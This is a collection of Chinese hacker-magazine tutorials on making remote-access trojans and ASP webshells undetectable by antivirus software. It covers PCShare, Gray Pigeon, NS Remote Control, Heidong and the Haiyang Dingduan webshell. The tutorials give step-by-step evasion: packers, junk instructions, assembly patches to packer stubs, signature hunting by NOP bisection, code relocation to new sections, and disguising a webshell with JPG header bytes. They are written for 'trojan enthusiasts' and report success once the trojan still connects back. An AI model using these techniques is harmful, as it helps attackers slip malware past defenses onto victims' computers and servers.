最近 PCShare 推出了全新的 2007 版，对程序进行彻底的改变：比如木马的架构为单模块多进程工作模式，这样可以确保肉机控制时彼此不影响。木马的启动模式完全模拟了 Windows 系统服务，用 msconfig 查看的时候默认为系统服务。另外，用户可以根据自身需要选择是否加载驱动隐藏模块的内容。既然是木马程序就避免不了被查杀的噩运，所以今天我们就来说说这个 PCShare2007 的免杀过程。

#### 免杀文件解密

新版本的 PCShare2007 因为采用了新技术，因此可以使编译后服务端程序体积很小，生成后的可执行文件大概在 28K 左右，如果再加上驱动隐藏模块的话也才 31K 左右，所以新版本已经取消了以前那种分段下载的形式，同时控制模块的数量也大为减少，这样也就方便了我们进行免杀操作。新版本的 PCShare 软件包 update 文件夹里面有 3 个文件，它们就是生成服务端程序所必须的文件，分别为 PcHide.sys、PcInit.exe、PcMain.dll 等，因此我们免杀就需要对这三个文件进行操作。当然，你不需要对服务端信息进行隐藏的话，也可以不对其中的 PcHide.sys 文件进行免杀。PcInit.exe 是生成服务端程序所必须的文件，PcMain.dll 是执行生成的服务端程序释放的 DLL 文件，PcHide.sys 为木马启动后隐藏通信的文件。免杀的过程需要分为两大步，首先对这些组成服务端的模块文件进行免杀，接着对由模块文件生成的服务端进行免杀。

#### 模块文件免杀

##### 1）PcInit.exe 文件免杀

EXE 文件的免杀执行起来还是很容易的，这里我们首先使用加花来进行免杀处理。运行最新的一款加花工具“花指令伪装器”，因为这些全新的花指令都还没有被杀毒软件查杀。点击“浏览”选择 update 文件夹中的 PcInit.exe，接着在“选择花指令”列表中选择一个花指令，最后点击“加花”就可以完成加花的操作了，如图 1 所示。


图1

接着我们利用加壳来进行免杀处理。最近一段时间有很多全新的加壳工具，这里我们就任意选择其中的一款——Sixxpack。运行程序后点击“目标文件”后的“浏览”选择刚刚加花处理过的 PcInit.exe。另外，通过“图标文件”可以为文件加一个图标，不过这里我们不需要这样的操作，直接点击“压缩”就可以了，如图 2 所示。接下来我们再利用 VMProtect 对程序的入口点进行伪装。运行 VMProtect 后在“File name”选项中设置文件的路径，点击下一步后将“EntryPoint”选项添加到“Procedures for protection”列表中，最后我们只需要点击下一步就可以完成文件头的加密操作，如图 3 所示。到此为止，关于该文件的免杀操作就介绍到这里。


图2


图3

##### 2）PcMain.dll 文件免杀

对 DLL 文件的免杀和对 EXE 文件的免杀操作相似，还是首先使用加花的方式来进行免杀。这里我们选择另外一款加花指令工具“超级加花器 1.6 版”来进行操作。将需要免杀的 DLL 文件直接拖动到程序的主界面，在“花指令”下拉列表中任意选择一种花指令，直接点击下面的“加花”即可完成整个过程，如图 4 所示。另外，也可以利用程序的自定义花指令添加功能，直接利用程序来添加自己编写的花指令代码。

添加自己编写的花指令代码。接着运行常见的免杀加密程序 MaskPE，通过拖拽或点击“Load File”选择要修改的 DLL 文件，在“Select Information”列表中选择“Base Relocation Table Information”这一项后，点击“Make File”对修改的文件进行另存为操作即可，如图 5 所示。


图4


图5

然后还是通过加壳程序 Hying's PE-Armor 进行处理。首先在“处理”标签处选择需要加壳的文件信息，再切换到“设置1”标签并选中“特殊代码加密”选项；再切换到“设置2”标签，选中“将自身伪装为”选项并选择一个伪装的项目，如图 6 所示，最后返回到“处理”标签，点击其中的“保护”即可。这样，这个重要的 DLL 文件也免杀成功了。


图6

##### 3）PcHide.sys 文件免杀

SYS 文件的免杀一直是免杀中比较困难的点，因为很多针对 EXE 文件的方法对其根本无效，所以一般都是从 SYS 文件的文件头进行操作。虽然可以通过特征码进行修改，但是毕竟操作比较麻烦。首先利用十六进制工具 C32Asm 打开这个驱动隐藏模块文件，接下来我们只需对它的文件头进行稍微修改即可。

从图 7 中我们可以清楚地看到该文件的文件头为 MZ。利用鼠标选中这个文件头的所有信息，点击右键菜单中的命令复制它们，然后从文件头的第二个字节向下复制等长的字节，最后点击鼠标右键中的“粘贴”命令进行覆盖，这样我们就相当于将整个文件头向后移了一位。

现在选中文件头中的第一个字节，点击鼠标右键中的“填充”命令，在弹出的窗口中选择“使用十六进制填充”选项，在填充框中输入“00”后点击“确定”即可完成，如图 8 所示。最后点击“另存为”命令，对修改过的 SYS 文件进行保存。现在我们再进行一下加壳处理，不过由于 SYS 文件运行在内核空间，所以大多数加壳程序是没法使用的，不过 ASPack 这款加壳程序是可以的。

运行 ASPack 后点击“打开”命令选择修改后的 SYS 文件，点击“开始”对这个文件进行压缩就可以了。这样，关于该驱动隐藏模块文件的免杀也成功完成了。


图7


图8

#### 木马免杀

三个模块文件都分别免杀完成后，运行 PcShare 的客户端程序，点击“生成客户”来配置服务端程序。虽然相应的模块文件都已经免杀成功了，但是有的杀毒软件还是会进行查杀的。

不过这也非常合情合理，就像灰鸽子木马免杀了 DLL 文件后，还需要对服务端程序本身进行免杀一样。

同样先运行 MaskPE 进行服务端加密，在“Select Information”列表中选择倒数第二项“Import Table Information”即可。再运行加壳程序 Hying's PE-Armor 来进行处理，按照前面的设置方法操作后，点击窗口中的“压缩”完成操作设置。操作完成后再运行 ASPack unpacker 这款脱壳机，这款软件现在在免杀中也非常流行，点击“打开”选择服务端程序后，虽然程序判断文件并没有进行相关的加壳，但是我们同样点击“脱壳”即可，如图 9 所示。我猜测这么做的目的是对服务端程序的输入表重建，因此这样也可以起到免杀的作用。再接着运行 PEditor 这款软件修改程序，点击“浏览”选择服务端程序，PEditor 会自动读取服务端程序的“文件信息”，将“入口点”信息加 1 后改成 00004051 即可，然后点击“应用更改”对刚才的设置进行确认即可。


图9

##### 总结

PCShare 的免杀操作相对于其他的木马要繁琐很多，尤其是其中的驱动隐藏模块文件更是免杀过程中的难点。另外，由于 PCShare 的模块信息本身就是单独的文件内容，如果在免杀的过程中某个模块文件出现有问题的话，那么就会影响到服务端程序的正常安装以及运行。因此我想对进行 PCShare 木马免杀的网友说，在 PCShare 的免杀过程中一定要循序渐进。在免杀完成一个模块后就马上进行测试操作，不要等三个模块文件都完成后再测试，这样的话如果出现错误，会不清楚是哪个模块文件的问题。

---

适合读者：木马爱好者  
前置知识：无

## 修改5款壳：过卡巴斯基

文/图 甘于寂寞


本文将通过简单修改壳的头部来达到过卡巴的文件查杀。用到的工具有 OD 和 NSPACK3.6、NSPACK1.1、UPX2.0、ASPACK2.12、FSG2.0。修改对象为分别加了前面 5 种壳的黑防鸽子服务端。以下是修改的方法，其中加粗部分是修改之前的，斜体是修改后的。以下的所有修改经过测试，程序都可以运行，当然，若修改后程序不能再运行，那修改是毫无意义的。

```asm
[ebp-160]
004CF328 8995 A0FEFFFF mov dword ptr ss:[ebp-160],edx
004CF32E 1195 D0FEFFFF adc dword ptr ss:[ebp-130],edx
004CF334 8DB5 14FFFFFF lea esi,dword ptr ss:[ebp-EC]
004CF33A 1116 adc dword ptr ds:[esi],edx
```

### 修改 NSPACK3.6

用 OD 载入被加过 NSPACK 壳的黑防鸽子，复制出前十几行，代码如下。

```asm
004CF302 E8 00000000 call 004CF307
004CF307 5D pop ebp
004CF308 83C5 F9 sub ebp,7
004CF30B 8DB5 0CFFFFFF lea eax,dword ptr ss:[ebp-F4]
004CF311 8338 01 cmp dword ptr ds:[eax],1
004CF314 0F84 47020000 je 004CF561
004CF31A C700 01000000 mov dword ptr ds:[eax],1
004CF320 8BD5 mov edx,ebp
004CF322 2B95 A0FEFFFF sub edx,dword ptr ss:[ebp-160]
...
```

修改后的代码如下（斜体部分）。

```asm
004CF302 E8 00000000 call 004CF307
004CF307 5D pop ebp
004CF308 83C5 F9 add ebp,-7
004CF30B 8DB5 0CFFFFFF lea eax,dword ptr ss:[ebp-F4]
004CF311 8338 01 cmp dword ptr ds:[eax],1
004CF314 0F84 47020000 je 004CD561
...
```

修改后保存文件，用卡巴扫描，不再报毒。其中“sub ebp,7”是将 EBP 减去 7，修改成“add ebp,-7”，意思是将 EBP 加上“-7”，同样的运算结果。将“add dword ptr ss:[ebp-130],edx”修改成“adc dword ptr ss:[ebp-130],edx”，将 ADD 修改成了 ADC，一个是不进位的加法，一个是进位加法，当然，在不进位的情况下是可以修改的，至于是否进位，改了之后能运行就 OK 了。

### 修改 FSG2.0

OD 载入被 FSG2.0 加了壳的黑防鸽子，复制出前十几行，代码如下。

```asm
00400154 8725 2C115300 xchg dword ptr ds:[53112C],esp
0040015A 61 popad
0040015B 94 xchg eax,esp
0040015C 55 push ebp
0040015D A4 movs byte ptr es:[edi],byte ptr ds:[esi]
0040015E B6 80 mov dh,80
00400160 FF13 call dword ptr ds:[ebx]
00400162 77 F9 jnbe short 0040015D
...
```

修改后代码如下。

```asm
00400154 8725 2C115300 xchg dword ptr ds:[53112C],esp
0040015A 61 popad
0040015B 94 xchg eax,esp
0040015C 55 push ebp
0040015D A4 movs byte ptr es:[edi],byte ptr ds:[esi]
...
```

```asm
0040015E  B6 80        mov dh,80
00400160  FF13         call dword ptr ds:[ebx]
00400162  77 F9        ja short ...
00400164  33C9         xor ecx,ecx
00400166  FF13         call dword ptr ds:[ebx]
00400168  77 16        ja short ...
0040016A  33C0         xor eax,eax
```

这里是将两个 JNB 跳转改成了 JA，但这种改法是没有道理的，因为 JA 和 JNB 不是等价的跳转，但这也是一种尝试。修改后卡巴扫描，不再报警，程序正常运行。

##### ASPack 的修改

同样用 OD 载入，复制出前面的十几行反汇编代码。注意，这个在载入之后要把滚动条再向上拉一行。复制出的代码如下。

```asm
004CC000  90           nop
004CC001  60           pushad
004CC002  E8 03000000  call ...
004CC007  E9 EB045D45  jmp ...
004CC00C  55           push ebp
004CC00D  C3           retn
...
```

修改后如下，对照前面地址一一对应地修改。

```asm
004CC000  60           pushad
004CC001  90           nop
004CC002  E8 03000000  call ...
004CC007  E8 EB045D45  call ...
004CC013  73 5D        jnb short ...
004CC01A  11EB         adc ebx,ebp
004CC01C  81C3 0040F3FF add ebx,FFF34000
...
```

最上面，我将 PUSHAD 和 NOP 调换了下顺序，其中“jmp 45A9C4F7”这句的下面有个 RETN，可以知道这里的 JMP 和 CALL 是一样的，所以把 JMP 换成了 CALL。下面的 ADD 依然改成了 ADC，这个前面有过说明。“sub ebx,0CC000”改成了“add ebx,FFF34000”，把“0CC000”前面加上一个负号就自动变成了“FFF34000”，其实“FFF34000”是“0CC000”的负数形式。

##### UPX 的修改

UPX 可以说是免费的最经典的压缩壳。我们用 OD 载入，复制出代码。修改前的代码如下。

```asm
004CE240  60           pushad
004CE241  BE 00504700  mov esi,...
004CE246  8DBE 00C0F8FF lea edi,...
004CE24C  C787 0CA70800 A5 ...
004CE256  57           push edi
004CE257  83CD FF      or ebp,FFFFFFFF
004CE25A  EB 0E        jmp short ...
...
```

修改后的代码如下。

```asm
004CE240  60           pushad
004CE241  BE 00504700  mov esi,...
...
004CE25A  77 0E        ja short ...
004CE25C  73 0C        jnb short ...
004CE25E  72 0A        jb short ...
004CE260  8A06         mov al,byte ptr ds:[esi]
```

JMP 是个无条件跳转，当然，把所有可能的条件都合并，条件也就变成了无条件。

### NSPACK1.1 的修改

我看了一下，这个和 3.6 版本不是一个样子的，所以也将其修改一下。这个最简单，一个指令卡巴就不会再发出那种难听的叫声了。用 OD 载入，代码如下。

```asm
004CF600  9C           pushfd
004CF601  60           pushad
004CF602  68 07F64C00  call ...
004CF607  5D           pop ebp
```

修改如下。

```asm
004CF600  9C           pushfd
004CF601  60           pushad
004CF602  68 07F64C00  push ...
004CF607  5D           pop ebp
```

这个修改最简单，其中 CALL 换成了 PUSH，有些时候，在调用情况下，CALL 和 PUSH 还有 JMP 是可以替换的。

以上是 5 种壳的修改，都是通过壳头的简单修改就使得卡巴那刺耳的杀猪嚎叫不再响起。这也是抛开主动防御，通过修改壳达到了免杀卡巴的文件查杀。

---


适合读者：木马爱好者  
前置知识：无

#### 木后门反闸贝木马的免杀

文/图 黑刀联盟 & 鹤岗一中 姬良

“免杀”之意是让本被杀毒软件查杀的文件变得不能被杀毒软件查杀。目前，国内黑客技术中最火的技术非免杀莫属，以前杂志上刊登这样的文章不多，使得脚本后门的“免杀”技术得不到很广的传播，致使很多初学者除了会用 screnc.exe 来加密后门外什么都不会（在脚本后门“免杀”方面），其实脚本后门的免杀和 EXE 及 DLL 后门的免杀一样，都有一定的方法可学。应用程序“免杀”的几个基本方法有修改输入表、加花指令、加壳、修改特征码等，而我们“免杀”脚本后门也有一定的方法，如加密法、分割文件包含法，以及特征码修改法……咳，还有一个王牌“免杀”法，我会在文章的最后详细讲解，同时也讲一下网页木马（下载并执行）的免杀。接下来，我们就一起走进脚本后门和网页木马的“免杀”之旅吧。

exe 加过密的后门呢，似乎微软推出了相关的解密工具，但是我试了一下，并没有解密成功，不知道是为什么。

下面再简单说说移位法和进制转换法（针对 HTML 的），用该方法制作出来的“免杀”后门有明显的特征，在代码开头可以看到 unescape 字样，这个方法的“免杀”效果不怎么好，好像有个叫“西域军团网页加密器”的东西就是用的这种加密方式。由于这种加密方式的强度实在不怎么样，所以本文将其略过，不做详细讲解。逆转法加密（和刚才的不一样，这里是 ASP 的）是先将代码取反，运行的时候再取正，这个方法“免杀”的脚本后门在运行速度上有明显的降低，所以也不推荐使用。

原理说了半天，下面我们实践一下，用到的工具是“网页终级加密器”，可以加密 ASP 和 HTML 两种格式，有两种加密方式，也就是前面提到的“移位法”和“逆转法”，这里介绍一下加密 ASP 木马的“逆转法”。首先单击“选择->打开”，“选择海洋顶端 2006 ASP 木马”，然后在“数字”输入框中输入 0~99 之间的任意一个数，这里是 52，在中间的输入框中输入加密后的文件名，这里是“木马海洋顶端 2006 ASP 木马(免杀版).asp”，然后在单选框区选择“ASP”和“逆位法”，最后单击“加密”按钮，这样“免杀”的海洋顶端 2006 ASP 木马就制作完成了，如图 1 所示。

#### 正文加密法

这个加密方法大家都会，而该方法成功与否的关键就在于用什么样的工具。举几个最常用最具有代表性的例子，首先就是前面提到的 screnc.exe 工具，这款工具由微软出品，功能单一，强度最高，效果也很好。我们用一个原版的“海洋顶端 2006 ASP 木马”，然后将这个木马和 screnc.exe 放在同一目录下，在 CMD 中执行命令“screnc.exe 海洋顶端 2006 ASP 木马.asp 海洋顶端 2006 ASP 木马(免杀版).asp”。其中，木马海洋顶端 2006 ASP 木马(免杀版).asp 就是我们生成的新木马了，把它传到 http://virusscan.jotti.com 上看看，除了卡巴斯基，可以躲过其中大部分杀毒软件的查杀了。现在应该可以清楚地认识到这个工具的威力了吧？如果使用 screnc.exe 对后门进行加密，切记在加密以前把后门的密码改好，不然加了密以后，就什么都改不了了。据我所知，目前还没有多少人会解密用 screnc.exe 加过密的后门呢，似乎微软推出了相关的解密工具，但是我试了一下，并没有解密成功，不知道是为什么。


图1把完整的海洋木马后门分解成 N 份，然后把其中的一段带特征码的代码进行加密，再复制回原文件，把没加密的代码替换掉就可以了。

#### 特征码修改法

大家都知道修改特征码这个方法的效果好，但是想大范围免杀很麻烦。

首先把海洋顶端木马分成 N 份，我一般分成 10 份，然后用杀毒软件对其查杀，结果可以查杀第 4 份文件，那么特征码就在那里，之后再将其分成 10 份，再次查杀，依此类推，最终找到特征码。不过，海洋顶端 ASP 木马有很多特征码，一定要耐心查找，找到特征码后就要对找到的特征码进行修改了（可以用上面提到的加密法），修改的原则是可以让其躲过杀毒软件的查杀，又不影响程序本身的运行。

先来介绍一下大小写修改法，仅仅修改大小写不会影响文件执行，但是会影响杀毒软件对病毒的判断能力，所以我们可以对刚刚找到的特征码进行大小写转换，最终达到“免杀”目的。还有一个方法就是替换变量名称法。大家都知道 ASP 语言中声明变量用 DIM，而变量名只要符合该语言的语法规定就可以。我们用记事本打开海洋顶端 ASP 木马，可以看到 `Dim i, arrayStr` 这句，把 i 替换成别的名字，如“jiliang”，改好后语句变成了 `Dim jiliang, arrayStr`，依次类推，最终可以实现“免杀”。不过要注意的是，用这种方法不但要改变量名，还要把以后出现的所有变量都换成新改的变量名。其实我们完全可以把所有的变量名全改掉，不过一定要注意，新的变量名一定要符合语法规定。

下面再来说一下在被调用对象中插入空变量的免杀方法，不会这个方法的读者可要注意了，因为被调用的对象往往是特征码出现率最高的区域，而且在 HTML 网页木马中，只有被调用的对象才可能作为特征码。而对于 ASP 后门，这个免杀也是很关键的，下面就该实际操作一下。

用记事本打开海洋顶端 ASP 后门，可以看到 `Set rs = Server.CreateObject("ADODB.RecordSet")` 这句代码，其中的 `"ADODB.RecordSet"` 就是被调用的对象了，我们在其中加入没有声明的空变量，也就是在 DIM 后面没有的变量名，如“jilianghou”，然后用 `&` 连接符将其连接起来，这样原代码就变成了 `Set rs = Server.CreateObject("ADODB.Re" & jilianghou & "cordSet")`，也就达到了“免杀”的目的。最后再说一下关于特征码查找的一点问题，一般的后门，尤其是出名的后门，版权文字大都是特征码，建议改掉，不过如果你鄙视“盗版”行为，可以对其进行大小写修改或取反，或者在改完特征码的其他部分以后，用 screnc.exe 这样的加密工具加密一下。

#### 分割文件包含法

加密法和特征码的“免杀”方法说完了，再来看看一下“分割文件包含法”。学过 C 语言的都知道标准库和 `#include` 吧？举个例子，`#include <stdio.h>` 就是告诉编译器在本程序中包含标准输入/输出库的信息，文件包含指令（即 `#include <>` 指令）使得处理大量的 `#define` 指令以及声明更加方便。在源文件中，任何形如 `#include "文件名"` 或 `#include <文件名>` 的行都将被替换为由文件名指定的文件内容。先把一个 ASP 木马分成 N 份，一般我用 4~5 份，然后再用 `#include <>` 包含起来即可。不过，刚才我举的例子是 C 语言的，读者在做“免杀”的时候，一定要用对应语言中的函数，ASP 用 ASP 的、PHP 用 PHP 的，包含的除了是分割下来的文件，还可以是图片什么的。此方法的“免杀”效果非常好，方法实践起来也很简单，建议使用。

#### 王牌免杀法

最后来看看王牌免杀法——图片免杀法。我们先从网上下载几个图片，要 JPG 格式的，什么图片都可以，只要格式对就可以，然后分别用记事本打开这几个图片，会看到很多乱码，别问我这些代码是什么意思，我也不会翻译这东西。不知道大家注意到了没有，所有乱码的开头都是一样的，如图 2 所示，它代表了这个文件是 JPG 图片文件，杀毒软件是不会查杀一个图片的（瑞星就是典型），所以我们就要把我们的 ASP 后门伪装成这个 JPG 图片，这种方法应该可以称作是“加花”方式。

“加花”的第一步是什么，当然是找空白区域，如果没有空白区域就加新区段，要不会出错的。也许有人会问，ASP 程序也能加区段，当然不能了，我只是打个比方。我们要做的是用记事本打开海洋顶端 ASP 后门，在开头处加三个空格（注意最少三个空格，建议只加三个），这样“区段”就加好了。我们用 16 进制编辑器 WINHEX 打开一个 JPG 图片文件，可以看到在最开头的代码是 `FF D8 FF`，如图 3 所示。


图2


图3


图4

这三个代码也就是 JPG 图片文件的标志了。再用 WINHEX 打开我们的海洋顶端 ASP 木马，可以看到在代码开头处有三个 20，如图 4 所示，这就是我们刚才加的三个空格。看到这里知道我为什么说要加三个空格了吧？我们要做的就是把“20 20 20”改成“FF D8 FF”，然后保存文件，用杀毒软件查杀一下，是不是不报毒？呵呵。

至此，本文就结束了，但也才讲了脚本免杀的三分之一，在以后的“中篇”和“下篇”中，我将详细地介绍 HTML 网页木马的“免杀”（包括内存“免杀”和文件“免杀”两部分），和 PHP 木马及一句话木马的免杀。最后说一下“免杀”脚本后门的一些小技巧，在实际“免杀”过程中应该综合应用以上提到的方法，如先改特征码，改好后，进行加密。大小写转换法在对 ASPX 后门的“免杀”中效果非常好，建议使用。对于小型上传型后门（如 diy.asp），建议用修改变量法；图片免杀法适用于各种情况。大家在实际做“免杀”时，不仅可以把后门伪装成 JPG 图片，也可以将后门伪装成其他文件，如 BMP 图片。

- 适合读者：木马爱好者
- 前置知识：无

## 全面免杀NS远控

文/图 黑刀联盟&御试一中 蟋蟀


以前杂志上的免杀文章大都是针对文件免杀的，而没有内存免杀的（针对瑞星），今天我们就来看一下内存+文件全免杀。记得我刚开始接触网络安全的时候，看的都是小榕和袁哥等人的教材，那些高手讲的不是很详细，当时就不太明白，所以我会把本文讲得非常简单，只要你按操作做了便会有所收获。

这里免杀的程序是 NS 远控七夕专版，我们的目的是实现该木马服务端的全面文件免杀，也就是可以躲过 http://virusscan.jotti.org/ 和 http://www.virustotal.com 中的所有杀毒软件。本文所说的免杀包括服务端主文件和包含在其内部的 DLL 文件。如果不免杀 DLL 文件，那么内存检查是肯定过不了的。

首先生成一个服务端，然后用 Restorator2007 导出其中的 DLL 文件。打开 Restorator2007 后，单击“文件->打开”命令，选择我们刚刚生成的服务端程序，在 Restorator2007 界面的左边就会列出 NS 远控七夕专版服务端资源的树形结构，我们要从这些资源中导出服务端运行时释放的 DLL 文件。在资源树中选择“DLLFILE”中的“MYDLL”一项，在其上单击右键，依次指向“导出->导出为->导出为”，如图 1 所示，然后把这个文件保存为扩展名为 DLL 的文件（不改文件名）。这样，服务端程序中的 DLL 文件就被导出来了。

下面我们就对这个 DLL 文件进行免杀。对于这个 DLL 文件，一般用加壳方式，因为加壳免杀要比修改特征码免杀的免杀范围更广。


图1

用 PEiD 检查，可以看到这个文件加了 UPX 壳，所以我们要先对这个 DLL 文件进行脱壳，用 upx.exe 就可以搞定。

```bash
upx -d mydll.dll
```

我们用加密壳 Sykp v1.43 来对这个 DLL 文件进行免杀。打开 Sykp v1.43，在“需要保护的文件”处选择刚刚释放出来的 DLL 文件，然后点“加密”即可，如图 2 所示。把处理过的 DLL 文件传到上面两个在线查毒网站，没有一个杀毒软件能查出这个 DLL 是病毒，至此，服务端中的 DLL 文件就已经实现了全免杀。之后再将其导入我们的主服务端程序，用到的工具还是 Restorator2007。打开 Restorator2007，在资源树中选择“DLLFILE”中的“MYDLL”一项，右键单击“导入”，在弹出的打开对话框中选择免杀后的 DLL 文件确认即可。


图2

下面就到了本文的重点：实现主服务端的内存免杀。目标是瑞星 2008 测试版，只要可以躲过瑞星的内存查杀就可以了。像卡巴斯基这类杀毒软件的内存查杀其实和文件查杀没什么区别，所以一般内存免杀只针对瑞星。打开瑞星，把“内存”前面的选框勾选，其它的选框全部取消；打开 OD，按 F3，选择刚刚保存的新主服务端程序，将其打开。等程序载入完成以后，回到瑞星界面（注意：这时不要关闭 OD，以后的切换也是如此。）点击查毒，报毒后不用管，点“取消”。因为 NS 远控七夕专版还不是很普及，所以应该不会是复合特征码，所以我们只需按照查找单一特征码的步骤来查找：回到 OD 界面，选中“00404ACF”以前的所有代码（也就是主服务端程序前一半的代码），在其上单击鼠标右键，在弹出的右键菜单中单击“汇编”命令，然后在弹出的输入框中输入“NOP”（不带引号），单击“汇编”按钮，这样程序前一半就被我们“掏空”了。回到瑞星，再点“查毒”，还是提示有病毒，这说明服务端的内存特征码在程序的下半部分。我们回到 OD，选中“00404AB3”至“00406B62”的所有代码，也就是程序的下半部分的前一半，按照同样的方法将其“NOP”掉，回到瑞星，单击“查毒”，没报毒，说明特征码被我们“NOP”掉了，而第一次没有“NOP”掉，这两点联合说明……

……联合说明，该主服务端的特征码在“00404AB3”至“00406B62”地址内。我们重新载入程序，直接来到“00404AB3”处，把“00404AB3”至“004055CE”的代码“NOP”掉，也就是“00404AB3”至“00406B62”的前一半，然后回到瑞星单击“查毒”报有毒；说明特征码就在“00404AB3”至“00406B62”的后一半代码中。然后再把“00404AB3”至“00406B62”后一半代码的后一半“NOP”掉，再“查毒”。以此类推，逐渐缩小范围，最后便可确定该主服务端的内存特征码为“00406AE8”至“00406B1B”。到此为止，主服务端的内存特征码就找到了，下面该做的工作就是修改特征码了。我用的方法是跳转法。首先拿出加区段工具 ZeroAdd 1.0，用这个工具给服务端加区段。打开 ZeroAdd 1.0，在 pick a file 处选择刚刚生成的服务端，然后在“enter a name for the new section”的输入框输入新加区段的名字，这里用 textt，在“Enter # of bytes to add (in hex)”输入框里输入新加区段的大小，这里用 52，最后点击“Add New Section”，新区段就加完了，如图 3 所示。


图3

再打开 PEiD，单击“EP 区段”后面的小箭头，出现如图 4 所示界面，在这里找到刚才加的区段名字，记下第一个地址，也就是“0002D000”。回到 PEiD 主界面，单击“首字节”后面的小箭头，弹出如图 5 所示界面，配合入口点，可以确定基地址为“00400000”，然后用基地址加上新区段的开始地址，就是我们新区段在内存中的开始地址了，这里是“0042D000”。


图4


图5

处理完成后，用 OD 载入新程序，按 Ctrl+G，在弹出的输入框里输入刚才算好的地址，在第一行开始，输入刚才查找到的特征码，然后回到原特征码的那段代码上，将原特征码用上面讲的方法“NOP”掉，并在“NOP”掉的第一行输入“jmp 0042D000”，也就是跳到我们新加区段的第一行（也就是第一句新特征码），并记下“NOP”掉的最后一行特征码的下一行的地址，这里是“00406B1C”。按前面的方法来到新区段特征码处，在新特征码的最后一行的下一行输入“jmp 00406B1C”（00406B1C 为刚刚记下的地址），这样程序在运行到原来的特征码处会跳到新区段来执行，执行后又会跳回下一句去执行，不会影响程序正常运行，但瑞星就查不出来了。在 OD 中单击鼠标右键，选择“复制到可执行文件”中的“所有修改”命令，并把文件保存为扩展名为 EXE 的文件，这个新服务端便是 DLL 全免杀加内存免杀了。

接下来该做主服务端程序的文件全免杀了。文件免杀用加壳方式最好，因为方法简单且免杀范围广，这里用到的工具是北斗壳 v3.7 和 ASPack2.12。先打开北斗壳 v3.7，选择我们改完特征码的服务端，压缩即可。再打开 ASPack2.12，单击“打开”，在弹出的选框中选择刚刚加过北斗壳 v3.7 的服务端，然后确定，这时 ASPack2.12 就会自动给我们的服务端加壳。

至此，我们的免杀就结束了。运行一下，瑞星一点反应也没有，再传到那两个查毒网站上，也没有杀毒软件能查出来。不过，也许大家看到本文的时候，我找到的特征码可能已经不是唯一的特征码了，文件免杀可能也不能过所有的杀毒软件了，但本文的意图在于让大家可以从中学到内存及文件免杀的有关知识和技巧，而不是套用。

- 适合读者：木马爱好者
- 前置知识：无

#### 木马免杀之内存定位法

最新 QQ 医生 1.4 版


文/图 CC

木马免杀做得再好，被 QQ 医生这个小家伙给杀掉，呵呵，那就是几乎一只鸡都别想要。想想，国内有几台电脑里没有 QQ 呢？如果 QQ 医生有朝一日变成了杀软，市场占有率将会最高，呵呵。

十一放假无聊，留在了学校，晚上玩起了黑洞 2005 版的免杀，虽然好久没玩过了，但是几大 NB 的杀软表面内存都过了（主动防御先不说），测试运行，成功上线，忽然 QQ 医生 1.4 版提示发现盗号木马，如图 1 所示。


图1

吓了一跳，QQ 密码是不是被人弄去了？仔细一看路径，居然是黑洞的安装路径，汗！QQ2007 正式版带的 QQ 医生，也就是 QQ 医生最新版，新添加了一项功能，就是在后台监视系统，一旦发现盗号木马，立刻警报。我重新启动机器，居然把我可爱的洞洞清除了，郁闷啊。还好，QQ 医生目前不是那么强大，但是有必要对这个小东西的杀毒机制进行一番研究。

QQ 医生到底是怎么杀毒的呢？主动防御型？可是我安装的时候根本没有反应，把黑洞服务端的壳用 Upx ShellEx 脱掉，把里面的所有注册表启动、服务启动之类的字符串全部用 0 填充，重新生成依然被检测了出来。这个小东西不可能用主动防御那种技术，猜测是内存查杀特征。猜的没错，用 OD 载入无壳服务端，呵呵，居然杀了。

注意不要用 OD 载入带壳的，许多内存查杀，比如瑞星，带壳载入也能查杀。瑞星有脱壳能力，这个小家伙没有，但是运行在内存里的是相当于无壳装载的，开始这个地方我困惑了一会，在想运行的就查杀，OD 载入的怎么就不杀了，居然载入的是有壳的所以不行。最后成功地定位出了特征码，修改后，QQ 医生不再杀。因为 QQ 医生有点特殊，下面就介绍两种定位的方法。


图3

### MYCCL定位

用到的工具有 TK.Loader（内存辅助定位工具）和 MYCCL，设置的时候注意，最好少分成几块，我先生成了 10 个，这样容易查看，因为很大一部分要手工来完成。此外，还要在“带后缀”前边打上钩，否则无法载入内存。如图 2 所示。


图2


图4

用 TK_LOADER 将黑洞载入内存，用 QQ 医生扫描，如图 3 所示。之后把 QQ 医生扫描出来的删除，点 MYCCL 的二次处理，最后只在 00056CC0_0000E750 处出现了特征码。再次定位这个区间，如图 4 所示。这次我分成了 50 块。可以尽量地大，只要删除的时候不要删除错了就可以，继续点生成，TK_LOADER 载入，QQ 医生查杀，选择把查出来的删除，OUTPUT 文件夹采用列表方式浏览这样更清楚。我们重复前面的操作，直到最后定位出特征码的精确位置。

定位时的一些细节要注意，比如点生成之前要把 TK_LOADER 关闭，否则它会把那些文件都载入在内存，这样 MYCCL 生成文件的时候，里面原来的文件不能删除，影响定位，这样有时候就会徘徊在一个区间内定位，找不到结果。还有一些细节，比如怎样快速删除文件，就是把文件浏览方式按照时间来排序。

最后我定位出如下的结果，特征码和物理地址/物理长度为【特征】00061BAE_00000002，特征码分布示意如下：


接下来 OC 把文件偏移转换成内存地址，如图 5 所示。在 OD 中，特征码位置在地址 004627AE 处。


图5

```asm
004627AE: 6C  ins  byte ptr es:[edi], dx
```

用 OD 载入进行修改，机器码是 6C，把滚动条向上一点，看着附近的样子，如图 6 所示。上面有 ASCII 字符串，把上面的字符串连接一下，得到“System is Base NT Kernel.Get Cac”。到这里，Cal 肯定是没有拼写完的单词，所以很可能下面也是一段 ASCII 指令，就看能不能到 6C 这个机器码了。如果能到，直接小写改大写或大写改成小写即可。方法为：按住鼠标左键，向下选择一块区域，其中包含 004627AE 这个地址，如图 7 所示。


图6


图7

正如我所猜测的，Cal 后面是 chePas，哈哈，到 6C 那里正好是 Fail 里面小写的“l”，把它改成大写的，6C 就变成了 4C。之后保存文件。OD 载入，QQ 医生查杀，未发现盗号木马。测试上线，成功，各项功能正常！完美免杀。

### OD定位响应特征

折半法，这种方式对于单一特征码比较方便，比前面的那种方法要快，但用上面的方法定位复合特征比较奏效，两种方法各有优点。其实对于复合特征，OD 也能定位，不过麻烦了一些。

需要说明的是，这里要使用接近 OD 原版的版本来做免杀。同样是在看雪下载的最新的防 ANTI 版本载入，QQ 医生检测不到；而用一个比较老的（就是未太做修改的）载入，QQ 医生就可以查出来。

